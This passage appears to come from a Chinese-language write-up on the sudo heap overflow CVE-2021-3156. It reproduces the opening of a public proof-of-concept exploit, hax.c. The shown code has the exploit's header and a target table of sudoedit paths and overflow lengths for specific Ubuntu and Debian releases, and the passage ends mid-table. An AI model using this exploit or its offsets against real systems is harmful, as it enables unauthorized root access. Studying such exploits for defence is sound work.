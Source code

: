 初始的`exp`，`lib`，`Makefile`如下

```
//hax.c
/**
 ** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdint.h&gt;
#include &lt;unistd.h&gt;
#include &lt;ctype.h&gt;

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct `{`
    char *target_name;
    char *sudoedit_path;
    uint32_t smash_len_a;
    uint32_t smash_len_b;
    uint32_t null_stomp_len;
    uint32_t lc_all_len; 
`}` target_t;

target_t targets[] = `{`
    `{`
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
```